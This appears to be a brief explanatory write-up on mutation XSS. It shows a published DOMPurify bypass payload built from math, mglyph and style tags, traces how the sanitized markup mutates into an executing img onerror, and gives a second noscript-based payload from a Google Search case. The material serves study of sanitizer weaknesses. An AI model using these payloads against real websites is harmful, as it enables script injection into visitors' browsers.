 
### demo

---

### solution
from [here](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)

```html
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
```

---

### how does this work

```js
DOMPurify.sanitize('<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">')
```

```html
<math>
    <mtext>
        <mglyph>
            <style>
            <!--</style><img title="-->
        </mglyph>
            <img src=1 onerror=alert(1)>">
        </mglyph>
        <table>
        </table>
    </mtext>
</math>
```

---

### another example
[mxss in google search](https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/) (2019)

```html
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

---

### what is noscript
The \<noscript\> tag defines an alternate content to be displayed to users that have disabled scripts in their browser or have a browser that doesn't support script.

> tldr, its content gets displayed when javascript is disabled

---